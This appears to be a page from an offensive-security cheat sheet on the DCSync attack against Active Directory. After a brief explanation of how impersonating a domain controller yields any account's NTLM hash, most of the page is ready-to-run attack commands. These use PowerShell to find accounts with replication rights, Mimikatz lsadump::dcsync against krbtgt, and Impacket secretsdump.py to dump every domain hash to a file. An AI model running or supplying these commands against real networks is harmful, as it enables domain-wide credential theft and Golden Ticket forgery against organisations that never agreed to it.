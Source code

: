 # DCSync

<details>

<summary>What is the DCSync attack ?</summary>

This attack simulates the **behavior** of a **domain controller** and **asks other domain controllers to replicate information** using the **Directory Replication Service Remote Protocol** (MS-DRSR). Basically, it lets you **pretend to be a domain controller** and ask for user password data. This can be used by attackers to get any account’s NTLM hash including the KRBTGT account, which enables attackers to create **Golden Tickets.**

The only pre-requisite to worry about is that you have an account with **rights** to perform **domain replication**. This is controlled by the Replicating Changes permissions set on the domain.

</details>

## Attack

<pre class="language-powershell"><code class="lang-powershell">'''
WINDOWS - locally
'''
# enumerate users with the required privileges
Get-ObjectACL "DC=security,DC=local" -ResolveGUIDs | ? {
    ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ObjectAceType -match 'Replication-Get')
}
<strong># or
</strong>Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ActiveDirectoryRights -match 'WriteDacl')}

# Take the SID and attempt to identify the UPN : 
Get-ADUser -Identity S-1-5-21-2543357152-2466851693-2862170513-1121
Get-ADGroup -Identity S-1-5-21-2543357152-2466851693-2862170513-527

# if OK, mimikatz :
lsadump::dcsync /domain:fcorp.local /user:krbtgt
# or
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
# note : the user that has dcsync priv

'''
LINUX - remotely
'''
# user with dcsync
secretsdump.py -just-dc $user:$passwd@$ip -outputfile dcsync_hashes
</code></pre>
